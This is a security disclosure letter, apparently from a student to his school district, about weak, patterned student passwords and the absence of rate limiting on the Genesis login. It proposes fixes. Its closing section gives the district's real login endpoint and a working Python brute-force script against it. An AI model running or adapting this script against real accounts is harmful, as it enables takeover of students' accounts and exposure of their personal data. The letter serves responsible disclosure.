 ## 🧠 Intro
I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [genesis](https://www.genesisedu.com/) login system has vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a students password a large amount of personal information is at risk.

## ❓ Why this is a problem
So what, student password are accessible, how is this bad? Well with these passwords being used for both genesis accounts and student google accounts lots of students personal information is accessible. This includes the following (in no particular order)
- Full Name
- Birth Date
- Age
- State ID (whatever that is)
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobil devises signed in with school google
- Device Details of devices signed in to school google account
- And more

And this is just the information I found through a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit / modify / send information / emails as someone else.

## ✨ Fixes
Now that this problem is known, I wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some fairly unoptimized [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less.

I think that at certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of current security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to genesis login system. This is something that would require working with the genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, genesis has no rate limit or CAPTCHA witch allows boring brute force attacks (such as this one) to work. Nowadays adding these is extremely easy with the use of external APIs like reCAPTCHA. For information on implementing reCAPTCHA in PHP (I think genesis uses PHP for its backend) check [here](https://developers.google.com/recaptcha/old/docs/php).

### 🌠 Fixes Conclusion
There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion
With personal information now being an incredibly valuable asset for advertisers, hackers, etc. it is more important than ever to properly secure it. At the moment I believe the district is **not** doing that fully, which puts large amounts of student data at risk. I believe that it is the district's responsibility to securely manage data of students on district required sites / services (like Google classroom and genesis). There is work and change needed to securely manage this data it is important for student information to be protected. By reading this our district is one step closer to bettor security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to share more information about this if It will be helpful.

Sincerely, Connor Slade

connorslade@bernardsboe.com

## 📅 Extra Details (If you are interested)
Here I will be going over the specific details of how this 'exploit' would work. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). So this exploit can be preformed manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends POST requests to `https://parents.genesisedu.com/bernardsboe/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936 etc.) and `<EMAIL>` is the email of the account to crack (ex: connorslade@bernardsboe.com). I found these details by reverse engineering the genesis login API. Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Read the code comments to understand what is happening.

```python
import requests # Import needed module

url = 'https://parents.genesisedu.com/bernardsboe/sis/j_security_check' # define api uri
email = '' # Put student Email here (ex: example@bernardsboe.com)
print(f'[*] Starting Crack for {email}') # Print email to crack

for i in range(9999): # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}' # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]') # print what password is being tried
    try:
        ses = requests.Session()
        ses.max_redirects = 2
        # put the username and password into a object ready to be send to the api
        dataToSend={"j_password": toTry, "j_username": email}
        # Send data to genesis api as if you clicked login on the login form
        data = ses.post(url, timeout=0.5, data=dataToSend)
        # try the next possible password if server timeouts or has too many redirects
    except (requests.exceptions.TooManyRedirects, requests.exceptions.Timeout):
        continue
    if data.status_code != 200:
        continue
    print(f'\n[*] Complete: {toTry}') # if passwords is correct print it
    break # Exit the loop when the password has been found
```
Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however it does a good job showing what is going on without the unnecessary stuff for speed and ease of use. My other version reads config values from a config file then makes use of multi threading to try more passwords in the same amount of time.
